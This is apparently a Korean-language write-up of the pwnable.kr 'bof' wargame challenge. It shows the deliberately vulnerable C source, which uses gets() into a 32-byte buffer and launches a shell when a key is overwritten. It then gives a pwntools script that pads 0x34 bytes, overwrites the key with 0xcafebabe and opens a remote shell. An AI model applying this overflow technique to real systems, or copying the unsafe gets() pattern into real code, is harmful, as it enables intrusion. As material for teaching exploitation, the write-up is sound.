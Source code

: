 # [pwnable.kr] bof

> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?
>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
>
> Running at : nc pwnable.kr 9000

## Analysis

```c
/* bof.c */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`func()`에서 `overflowme`에 입력을 받을 때 `gets()`를 사용하여 Stack buffer overflow가 발생할 수 있다.

## Exploit

Stack BOF를 이용하여 `func()`의 인자인 `key`의 값을 `0xcafebabe`로 덮어쓰면 플래그를 획득할 수 있다.

![image](https://github.com/h0meb0dy/h0meb0dy/assets/104156058/13e8a6cd-49b3-4744-90f9-7703080fb06f)

![image](https://github.com/h0meb0dy/h0meb0dy/assets/104156058/a2bad5fe-844a-4842-ad4c-f42abad5c782)

`overflowme`와 `key`의 주소는 `0x34`만큼 차이가 나기 때문에, `0x34`바이트의 dummy 뒤에 `0xcafebabe`를 이어붙이면 `key`를 덮어쓸 수 있다.

```python
# ex.py

from pwn import *

r = remote("pwnable.kr", 9000)

payload = b"A" * 0x34
payload += p32(0xCAFEBABE)

r.sendline(payload)

r.interactive()
```

![image](https://github.com/h0meb0dy/h0meb0dy/assets/104156058/c93cd74b-ba38-4d62-bfda-52cb564f8bb5)
